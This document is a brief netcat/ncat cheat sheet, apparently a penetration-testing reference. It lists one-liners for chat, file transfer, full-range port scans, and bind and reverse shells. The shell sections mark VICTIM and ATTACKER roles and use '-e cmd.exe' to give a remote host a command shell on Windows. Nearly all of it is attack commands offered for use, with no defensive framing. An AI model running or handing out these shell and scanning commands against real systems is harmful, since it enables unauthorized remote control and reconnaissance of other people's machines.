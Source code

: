 # Netcat (NC)
```
nc -nv <ip> <port>
```
## Chat
```
nc -nlvp 4444
nc -nv <ip> 4444
```

## File Transfer
```
nc -nlvp 4444 > file.exe  
nc -nv <ip> 4444 < file.exe
```

## Bind Shell
VICTIM (server)
```
nc -lvp 4444 -e cmd.exe
```
ATTACKER (client)
```
nc -nv <IP Address> 4444
```

## Reverse Shell
ATTACKER (server)
```
nc -lvp 4444
```
VICTIM (client)
```
nc -nv <IP Address> 4444 -e cmd.exe
```

## NCAT for increased security
VICTIM (server)
```
ncat -lvp 4444 -e cmd.exe --allow 192.168.30.5 --ssl
```
ATTACKER (client)
```
ncat -nv <IP Address> 4444 --ssl
```

## Port Scanning with NC
TCP Connect Port Scan
```
nc -nvv -w 1 -z <ip> 1-65550
```
UDP Scan
```
nc -unvv -w 1 -z <ip> 1-65550
```
